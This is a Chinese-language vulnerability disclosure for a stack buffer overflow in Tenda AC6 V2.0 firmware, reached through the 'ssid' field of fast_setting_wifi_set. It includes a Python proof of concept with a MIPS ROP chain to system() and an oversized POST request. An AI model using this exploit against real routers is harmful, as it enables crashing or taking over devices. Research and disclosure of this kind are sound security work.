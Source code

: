 # tenda AC6V2.0 缓冲区溢出漏洞报告  

## 漏洞描述  

在 tenda AC6V2.0 的 `form_fast_setting_wifi_set` 函数中，存在缓冲区溢出漏洞。该漏洞可能导致攻击者利用恶意输入，覆盖内存中其他重要数据，从而可能导致设备崩溃或执行任意代码。  

## 影响版本  

- V15.03.06.50  

## 代码审计

参数ssid可控，且它的值通过strcpy函数复制给栈上变量buff，造成溢出

<img width="353" alt="{56F106EB-265A-4E73-9C62-65145AA4093C}" src="https://github.com/user-attachments/assets/6443df7d-7ea4-4387-8a03-4d7b470dd4cd">



## 漏洞利用证明 (POC)  

```plaintext
import requests
from pwn import *

target_ip = "192.168.0.1"
target_port = 80
cookie = {"bLanguage":"zh", "password":"dmg23f"}

libcbase = 0x7f526000
mov_a0_jmp_sp = 0x28D58 + libcbase    #|addiu $a0,0x20($sp)|  jr   0x1C($sp) |
cmd = b"echo 123 > 1.txt"
system = 0x7f710b10

rop=p32(mov_a0_jmp_sp)+0x1c*b'a'+p32(system)+cmd

def exp_ssid():
	url = f"http://{target_ip}/goform/fast_setting_wifi_set" 
	payload = b'b'*0x400
	data = {"ssid": payload}
	response = requests.post(url, cookies=cookie, data=data)
	print(response.text)

exp_ssid()
